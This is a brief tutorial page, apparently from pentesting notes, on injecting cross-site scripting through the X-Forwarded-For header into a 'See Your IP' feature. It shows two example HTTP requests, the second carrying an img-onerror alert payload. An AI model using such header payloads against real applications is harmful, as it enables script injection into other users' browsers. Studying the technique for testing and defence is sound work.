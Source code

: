 # Header Poisoning

Sometimes headers could be injected with XSS when its content is used directly in some functionalities of the app.

Here we find an example of this scenario:

* An application has a _See Your IP_ functionality which retrieves the information of the user's IP via the `X-Forwarded-For` header.

{% code title="Example Request" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```http
GET http://$url HTTP/1.1
host: host
X-Forwarded-For: $IP
...
```
{% endcode %}

***

* We can inject JavaScript code, so when this function is triggered, the payload will be executed

{% code title="Example Request" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```http
GET http://$url HTTP/1.1
host: host
X-Forwarded-For: <img src=x onerror='alert("HACKED")'/>
...
```
{% endcode %}
